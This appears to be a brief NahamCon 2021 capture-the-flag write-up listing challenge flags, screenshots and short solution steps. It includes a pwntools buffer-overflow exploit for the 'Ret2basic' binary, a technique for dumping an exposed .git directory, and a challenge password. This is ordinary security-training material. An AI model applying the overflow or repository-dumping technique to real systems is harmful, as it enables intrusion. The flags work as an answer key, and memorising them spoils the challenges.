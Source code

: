 # NahamCon CTF

#### Rules Source code
```flag{90bc54705794a62015369fd8e86e557b}```

### Nahamcon2021
```flag{e36bc5a67dd2fe5f33b62123f78fbcef}```

### Echo

![image](https://user-images.githubusercontent.com/1076452/111018313-e7124780-8396-11eb-8fa1-b99817861f79.png)

![image](https://user-images.githubusercontent.com/1076452/111018299-d6fa6800-8396-11eb-8e52-279d10ecd11a.png)

![image](https://user-images.githubusercontent.com/1076452/111018288-cba73c80-8396-11eb-8d5b-53e1e3203942.png)

```flag{1beadaf44586ea4aba2ea9a00c5b6d91}```

### Homeward Bound

![image](https://user-images.githubusercontent.com/1076452/111000058-25d8db00-8360-11eb-9b99-3a045d6fd1f2.png)

![image](https://user-images.githubusercontent.com/1076452/111000087-30937000-8360-11eb-998c-07f49f530a66.png)

```flag{26080a2216e95746ec3e932002b9baa4}```

### Shoelaces

strings shoelaces.jpg | grep flag

```flag{137288e960a3ae9b148e8a7db16a69b0}```

### Pollex

binwalk --dd='.*' pollex

![image](https://user-images.githubusercontent.com/1076452/111015405-6435c080-8387-11eb-8b51-a97ce86ac290.png)

```flag{65c34a1ec121a286600ddd48fe36bc00}```

### Car Keys

![image](https://user-images.githubusercontent.com/1076452/111019745-e7631080-839f-11eb-9708-59de62d02bc9.png)

```flag{6f980c0101c8aa361977cac06508a3de}```

### Ret2basic

```
#!/usr/bin/python
from pwn import *
gs = '''
continue
'''
elf = context.binary = ELF('./ret2basic')
context.terminal = ['tmux', 'splitw', '-hp', '70']

def start():
    if args.GDB:
        return gdb.debug('./ret2basic', gdbscript=gs)
    if args.REMOTE:
        return remote('challenge.nahamcon.com', 30413)
    else:
        return process('./ret2basic')
r = start()
#========= exploit here ===================
win = 0x401215
#ret = 0x40133b
payload = "A" * 120
#payload += p64(ret)
payload += p64(win)
r.sendlineafter(": ",payload)

#========= interactive ====================
r.interactive()
```

![image](https://user-images.githubusercontent.com/1076452/111002592-810ccc80-8364-11eb-9f58-0ca4bb807ed0.png)

### esab64

cat esab64 | rev | base64 -d | rev

```flag{fb5211b498afe87b1bd0db601117e16e}```

### Resourceful

![image](https://user-images.githubusercontent.com/1076452/111007125-e1077100-836c-11eb-9a10-edb11904272d.png)

![image](https://user-images.githubusercontent.com/1076452/111007090-cf25ce00-836c-11eb-989e-3e9f1d579b6c.png)

![image](https://user-images.githubusercontent.com/1076452/111007110-da78f980-836c-11eb-9510-ce5ad11a8954.png)

```flag{7eecc051f5cb3a40cd6bda40de6eeb32}```

### Chicken wings 

https://lingojam.com/WingDing

```flag{e0791ce68f718188c0378b1c0a3bdc9e}```

### Andra

![image](https://user-images.githubusercontent.com/1076452/111007452-a9e58f80-836d-11eb-8fcb-2b86f03bf057.png)

![image](https://user-images.githubusercontent.com/1076452/111007468-b2d66100-836d-11eb-91b5-ac0fed2e04a5.png)

![image](https://user-images.githubusercontent.com/1076452/111007499-b833ab80-836d-11eb-892e-e2854621be02.png)

```flag{d9f72316dbe7ceab0db10bed1a738482}```

### Merch Store

Source code merch store

```flag{fafc10617631126361c693a2a3fce5a7} ```

## Mission

Source code

![image](https://user-images.githubusercontent.com/1076452/111015203-6ea38a80-8386-11eb-833a-647bffe6b2b6.png)

```flag{48e117a1464c3202714dc9a350533a59}```

### Bionic

![image](https://user-images.githubusercontent.com/1076452/111012004-27170180-837a-11eb-8aa6-8f0434726b1b.png)

### Meet The Team

https://github.com/internetwache/GitTools

https://constellations.page/.git/

git show

![image](https://user-images.githubusercontent.com/1076452/111013989-719b7c80-8380-11eb-9d8b-719daeb8cbe1.png)


### Gus

![image](https://user-images.githubusercontent.com/1076452/111011972-ffc03480-8379-11eb-8996-25197d69882c.png)


### Hercules

![image](https://user-images.githubusercontent.com/1076452/111013207-5da24b80-837d-11eb-94b6-fa2ce6b44d39.png)

### Lyra

![image](https://user-images.githubusercontent.com/1076452/111014284-c986b300-8381-11eb-86a2-847f0693ee78.png)

![image](https://user-images.githubusercontent.com/1076452/111014303-de634680-8381-11eb-85ee-3b94b44dac07.png)

![image](https://user-images.githubusercontent.com/1076452/111014312-ea4f0880-8381-11eb-9bfb-d8e0a0ae7060.png)

### Orion

https://twitter.com/OrionMorra/status/1363789936219082756

![image](https://user-images.githubusercontent.com/1076452/111014551-ea9bd380-8382-11eb-9418-a6b223bd1c13.png)

### Leo

![image](https://user-images.githubusercontent.com/1076452/111017557-1c1c9b00-8393-11eb-8485-7011fa58aea8.png)

![image](https://user-images.githubusercontent.com/1076452/111017573-2b034d80-8393-11eb-996e-b7169e37a59f.png)

``` flag{636db5f4f0e36908a4f1a4edc5b0676e}  A password for Leo is `constelleorising` ```




